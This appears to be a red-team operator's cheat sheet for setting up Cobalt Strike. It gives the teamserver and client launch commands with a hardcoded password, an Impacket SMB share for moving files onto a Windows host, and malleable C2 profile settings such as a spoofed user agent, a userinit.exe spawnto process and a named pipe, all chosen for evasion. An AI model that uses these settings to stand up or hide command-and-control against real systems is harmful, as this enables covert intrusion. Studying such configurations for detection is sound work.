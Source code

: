 ###############################################
###############################################
##                                           ##
##              COBALT STRIKE                ##
##                                           ##
###############################################
###############################################

===============================================
INITIAL SET UP
===============================================
# TEAMSERVER
cd /opt/CS/cobaltstrike
sudo su

export ETH1_IP=$(ip addr | grep eth1 | grep inet | awk '{print $2}' | cut -d/ -f1)

./teamserver $ETH1_IP coolstorybro! add-ons/MALC2/BSJeff-C2/cnnvideo_getonly.profile

# CLIENT
cd /opt/CS/cobaltstrike
sudo su

export ETH1_IP=$(ip addr | grep eth1 | grep inet | awk '{print $2}' | cut -d/ -f1)
./cobaltstrike


# FILE SHARING BETWEEN ATTACK AND WIN10-DEV
/usr/local/bin/smbserver.py -comment SHARE -smb2support SHARE `pwd`

===============================================
MALLEABLE C2 UPDATES - 
===============================================
# REFERENCES
https://github.com/threatexpress/malleable-c2
http://threatexpress.com/blogs/2018/a-deep-dive-into-cobalt-strike-malleable-c2/
https://github.com/threatexpress/malleable-c2/blob/master/jquery-c2.3.13.profile

#useragents
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Edge/44.18362.449.0"

#spawning and pipes -MUST USE DOUBLE QUOTES
set spawnto_x86 "%windir\\syswow64\\userinit.exe";
set spawnto_x64 "%windir\\sysnative\\userinit.exe";
set pipename "interprocess_##";

